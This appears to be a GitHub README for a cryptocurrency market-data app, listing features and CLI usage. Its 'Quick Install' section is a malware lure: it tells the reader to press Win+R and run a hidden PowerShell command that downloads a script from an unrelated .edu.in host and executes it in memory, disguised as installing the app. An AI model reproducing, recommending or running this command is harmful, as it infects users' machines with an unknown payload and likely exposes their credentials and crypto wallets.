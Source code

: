 <img src="https://img.shields.io/badge/license-MIT-red?style=for-the-badge&logo=none" alt="license" /> <img src="https://img.shields.io/badge/version-v1.3-blue?style=for-the-badge&logo=none" alt="version" />

## Features
- 🚀 Real-Time Market Data

- 📊 Advanced Charting Tools

- 💼 Smart Portfolio Management

- 🔔 Personalized Alerts

- 🌍 Multi-Currency Support

- 🔍 Enhanced Coin Discovery

Advanced filters (market cap, volume, gainers/losers)

Trending coins & new listings


— All in one powerful, user-friendly app!

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```


## Usage

### Basic Commands

```bash
# Display help information
crypto -h

# Navigate through pages
crypto --page 2

# Adjust results per page (max: 250)
crypto --per-page 20

# Change display currency (default: USD)
crypto --currency eur  # Supports USD, EUR, TRY, GBP, etc.
```

